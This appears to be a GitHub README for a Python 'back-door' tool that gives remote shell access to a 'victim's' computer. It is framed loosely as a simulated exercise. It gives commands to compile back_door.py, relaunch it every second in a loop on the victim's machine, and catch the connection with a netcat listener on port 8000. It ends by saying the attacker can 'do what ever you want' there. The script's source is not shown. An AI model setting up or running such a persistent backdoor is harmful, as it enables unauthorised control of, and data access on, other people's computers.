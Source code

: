 


![N|Solid](https://avatars2.githubusercontent.com/u/1525981?v=3&s=200)  ![N|Solid](https://www.doubleglazingontheweb.co.uk/wp-content/uploads/2015/11/white-upvc-back-door-250x250.jpg) 




###This is really simple Python hacking code. 

###easy to saying, you can use the Python built-in function to open the back-door on your opponent's(victims) computer.


But it's a simulated hacking exercise,
Assuming that the victim executes the python script that was compiled.
The first thing we do is start to think about it.

###We will use a great open source tool called  "NetCat"
http://netcat.sourceforge.net/

##If you are a user of OSX, you can download it easily. by 

```sh
$ brew install netcat
```
##Or if you are a linux user

```sh
$ apt-get install netcat
```

##Right now you can run in your own backyard or anywhere 


```sh
**********************victim's computer or shell***********************
$ ##lets compile###
$ python -m compileall back_door.py    
-------------------------------------------------------

this is shell bash script 
which mean , run this script every 1 sec..!
-----------------------------------------------
$ while true; do python back_door.pyc; sleep 1; done


```


##Open another shell try this netcat command
```sh
$ netcat -l -p 8000 
```

you can 
```sh
$ ifconfig 
```
![N|Solid](https://github.com/elastic7327/backdoor_tool/blob/master/picture/do%20ifconfig.png)


you can also do 
```sh
$ ls -al 
```
![N|Solid](https://github.com/elastic7327/backdoor_tool/blob/master/picture/do%20ls%20-al.png)


##and you can do what ever you want!!! except for sudo command!


